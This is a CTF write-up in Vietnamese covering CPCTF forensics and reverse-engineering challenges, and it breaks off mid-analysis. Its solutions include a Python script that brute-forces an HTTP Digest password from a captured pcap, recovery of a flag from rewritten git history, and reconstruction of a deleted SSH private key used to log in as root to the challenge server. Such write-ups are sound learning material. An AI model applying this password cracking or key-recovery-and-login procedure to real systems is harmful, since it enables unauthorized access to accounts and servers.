author: Azaki
published: published
created: 2026-04-18
description: Top 32
tags: Competition, CTF




# Forensic

## L0v3 PDF (Level 1)

友人からPDFが送られてきました。  
しかし、ファイルの中身を見てみても、まるで意味の無い文章しか書いてありません。  
一体どこに連絡の内容は書いてあるんだろうか？

---

Sử dụng lệnh `strings` để quét qua các luồng dữ liệu (data stream) của file PDF, ta dễ dàng tìm thấy chuỗi flag được lưu ở dạng bản rõ



> Flag: CPCTF{Lets_P1ey_W1th_PdFs}

---

## Flag in Flags (Level 2)

木を隠すなら森の中。ではFlagを隠すなら...？

---

Sử dụng công cụ StegSolve để phân tích các mặt phẳng bit (bit planes) của bức ảnh. Khi duyệt đến mặt phẳng màu đỏ **Red plane 1**, chuỗi flag ẩn hiện rõ trên khung hình



> Flag: CPCTF{FLAG_MANY_FLAGS_FLAG}

---

## Secret Recipe

Free Wi-Fiを飛ばしたら、秘密のオムレツのレシピが載ってるWebサイトにアクセスしている履歴がとれたよ！

- flagに`(`や`)`、`l`が含まれている(と思われる)場合、`1`に読み替えてください
- flagに`-`は含まれていません

---

Mở file pcap trong Wireshark để phân tích lưu lượng mạng. Lọc theo giao thức HTTP (`http`), ta phát hiện một gói tin truyền tải hình ảnh công thức nấu ăn dạng JPEG (`recipe.jpg`). Xuất tệp tin hình ảnh ra xem và áp dụng quy tắc chuyển đổi ký tự theo yêu cầu của đề bài



> Flag: CPCTF{5()j_sov(7}

---

## credentials (Level 3)

間違えて配布ファイルをフラグ入りでcommitしちゃった！  
でも大丈夫！次のコマンドで履歴から「完全に」削除したから、この配布ファイルを配ってもフラグは絶対にバレないはず。

```bash
git filter-branch --index-filter "git rm -rf --cached --ignore-unmatch flag.txt" --prune-empty -- --all
```

---

Kiểm tra toàn bộ lịch sử commit của repository theo gợi ý từ đề bài. Ta thấy repository đã trải qua 4 lượt commit, trong đó có một commit từng xóa tệp tin `flag.txt`:

```bash
git log --all --oneline --graph
```



Sau khi chạy lệnh `git filter-branch`, Git vẫn lưu lại các con trỏ nhánh ban đầu trong thư mục `.git/refs/original/`. Sử dụng lệnh tìm kiếm để truy xuất ref gốc trước khi bị chỉnh sửa:

```bash
find .git/refs -type f -maxdepth 4 -print -exec cat {} \;
```



Xác định được commit hash ban đầu là `1b9465c`. Liệt kê danh sách các tệp tin trong commit cũ này, ta thấy sự xuất hiện của tệp `flag.txt`:

```bash
git ls-tree -r --name-only 1b9465c
```



Tiến hành đọc trực tiếp nội dung tệp `flag.txt` từ commit cũ để thu về flag:

```bash
git show 1b9465c:flag.txt
```



> Flag: CPCTF{n3ver_c0mmit_y0ur_cr3dential5}

---

## digest (Level 3)

パスワードは数字8桁だけど、サーバーにはレートリミットを掛けているから総当たりされることもないはず！  
ちゃんとダイジェスト認証にしているから、pcapを公開しても安全、だよね？

接続先: [https://digest.web.cpctf.space/](https://digest.web.cpctf.space/)

---

Mở file PCAP trong Wireshark và phân tích luồng HTTP xác thực, ta trích xuất được các tham số Digest Authentication sau:

```text
username = cpctf
realm    = Restricted
nonce    = +pHR2klPBgA=dea9c5d3f34f861b03f0be19a41069cf29603de5
uri      = /
qop      = auth
nc       = 00000001
cnonce   = 1afdf6a5de6ae0bc
response = b71427f528886528c5144cd259a83d97
method   = GET
```



Thuật toán băm sử dụng trong Digest Authentication ở đây là MD5, đồng thời đề bài cho biết mật khẩu của nạn nhân là một số gồm 8 chữ số (`00000000` đến `99999999`). Không gian khóa này đủ nhỏ ($10^8$ tổ hợp) để thực hiện tấn công brute-force ngoại tuyến bằng script Python mà không lo bị chặn bởi rate-limit của server:

```python
import hashlib

username = "cpctf"
realm = "Restricted"
nonce = "+pHR2klPBgA=dea9c5d3f34f861b03f0be19a41069cf29603de5"
uri = "/"
qop = "auth"
nc = "00000001"
cnonce = "1afdf6a5de6ae0bc"
response = "b71427f528886528c5144cd259a83d97"
method = "GET"

def md5hex(s: str) -> str:
    return hashlib.md5(s.encode()).hexdigest()

ha2 = md5hex(f"{method}:{uri}")
print("HA2 =", ha2)

for i in range(100000000):
    password = f"{i:08d}"
    ha1 = md5hex(f"{username}:{realm}:{password}")
    calc = md5hex(f"{ha1}:{nonce}:{nc}:{cnonce}:{qop}:{ha2}")
    if calc == response:
        print("password =", password)
        print("HA1 =", ha1)
        break
```

Chạy script và tìm ra mật khẩu chính xác



Sử dụng mật khẩu vừa tìm được để đăng nhập vào dịch vụ web hoặc gửi request thông qua `curl` để lấy flag




> Flag: CPCTF{d1g3st_4uth_15_4_ch4ll3ng3}
---
## Authorized Whale (Level 5)

管理しているサーバーで内部の人間からの攻撃を受けました。権限を少し変更した直後のことでした。  
攻撃された直後のディスクイメージをお渡しするのでどのような攻撃がなされたのかを確認していただけますか？  
ちなみにまだ攻撃を受けたサーバーは稼働しています。

サーバーのssh先 : `133.88.122.244:32222`

---

Đề bài cung cấp một bản sao lưu ảnh đĩa (raw disk image) của hệ thống máy chủ vừa bị tấn công nội bộ. Sử dụng các công cụ phân tích artifact tự dựng, ta phát hiện lịch sử thực thi lệnh SSH đáng ngờ nhằm đọc tệp `/root/flag.txt`



Kiểm tra tệp tin ủy quyền `authorized_keys`, ta tìm thấy khóa công khai (public key) của kẻ tấn công



Tuy nhiên, tệp chứa khóa riêng (private key) tương ứng đã bị xóa khỏi hệ thống tệp tin gốc và phân tán vào các khối dữ liệu chưa phân bổ (unallocated space)



Tiến hành trích xuất toàn bộ chuỗi ký tự từ file ảnh đĩa `challenge.raw` và tìm kiếm các mẫu định dạng liên quan đến OpenSSH Ed25519:

```bash
strings -a challenge.raw > all_strings.txt
grep 'ssh-ed25519' all_strings.txt
grep 'authorized_keys' all_strings.txt
grep 'flag{' all_strings.txt
grep 'cpctf{' all_strings.txt
grep 'AAAAC3NzaC1lZDI1NTE5AAAAIFKZop8lFBVr7WU34SAutXs9gESNMbNzPa9KKcnCmAtW' all_strings.txt
```

Xác nhận flag nằm tại đường dẫn `/root/flag.txt` trên máy chủ từ xa, và ta cần phục hồi chính xác private key tương ứng để kết nối SSH qua cổng 32222



Phân tích cấu trúc dữ liệu lưu vết trong memory/disk string, ta nhận thấy chuỗi payload chứa public key và private key bị đảo ngược chuỗi ký tự. Viết một đoạn script Python để tự động parse, đảo chuỗi và giải mã Base64 nhằm khôi phục lại file khóa riêng `id_ed25519`:

```python
import re
import base64

with open("all_strings.txt", "r", encoding="utf-8", errors="ignore") as f:
    data = f.read()

target = "AAAAC3NzaC1lZDI1NTE5AAAAIFKZop8lFBVr7WU34SAutXs9gESNMbNzPa9KKcnCmAtW"

m = re.search(rf'PUB_PAYLOAD= ([^"]*{re.escape(target[::-1])}[^"]*?)","PRIV_PAYLOAD=([^"]+)"', data)
if not m:
    raise SystemExit("Khong tim thay record matching")

priv_payload = m.group(2)
priv_key = base64.b64decode(priv_payload[::-1] + "===")

with open("id_ed25519", "wb") as f:
    f.write(priv_key)

print("[+] Da khoi phuc file id_ed25519")
```

Phân quyền bảo mật `chmod 600` cho tệp khóa riêng vừa khôi phục, sau đó thiết lập kết nối SSH tới máy chủ mục tiêu và đọc file flag:

```bash
chmod 600 id_ed25519
ssh -i ./id_ed25519 -p 32222 root@133.88.122.244
```



> Flag: CPCTF{9r0t3ct_y0ur_d0ck3r_s0ck3t_str1ctLy}

---

# Reverse

## Hidden (Level 1)

隠されたflagを見つけ出そう！

---

Mở binary trong IDA Pro, giao diện hiển thị cấu trúc luồng thực thi có vẻ phức tạp với một số hàm không thể decompile trực tiếp, tạo cảm giác chương trình đã bị làm rối (obfuscate)



Tuy nhiên, khi kiểm tra các chuỗi tĩnh được lưu trong binary bằng lệnh `strings`, ta phát hiện chuỗi flag thực chất được lưu trữ hoàn toàn dưới dạng plaintext mà không qua bất kỳ lớp mã hóa nào



> Flag: CPCTF{H1dd3n_1n_5tr1ngs}

---

## Omikuji (Level 2)

運がよければフラグを教えてあげますね！

---

Kiểm tra bảng ký hiệu (symbol table) của binary, ta nhận thấy chương trình chưa hề bị strip symbol



Decompile hàm `main` trong IDA/Ghidra. Chương trình khởi tạo một đối tượng `std::string` rỗng, sau đó liên tục gọi toán tử ghép chuỗi `std::string::operator+=` với từng ký tự đơn lẻ. Ghép nối tuần tự các ký tự này ta thu được flag hoàn chỉnh



> Flag: CPCTF{D3r_4173_wurf317_n1ch7}

---

## Out Of World (Level 3)

何も起こりませんね..?

---

Dùng lệnh `strings` quét qua binary, ta bắt gặp các chuỗi tham chiếu đến biến môi trường `CTF_SECRET_KEY`



Chạy thử chương trình với quyền thực thi thông thường, ứng dụng chỉ in ra chuỗi "See You" rồi kết thúc



Phân tích luồng thực thi trong trình dịch ngược:
- Hàm `check(key)` thực hiện kiểm tra tính hợp lệ của khóa bí mật.
- Hàm `print_flag(key)` sử dụng khóa hợp lệ để giải mã và in ra flag



Kiểm tra điều kiện trong hàm `check`: độ dài của biến môi trường khóa phải chính xác là 24 ký tự

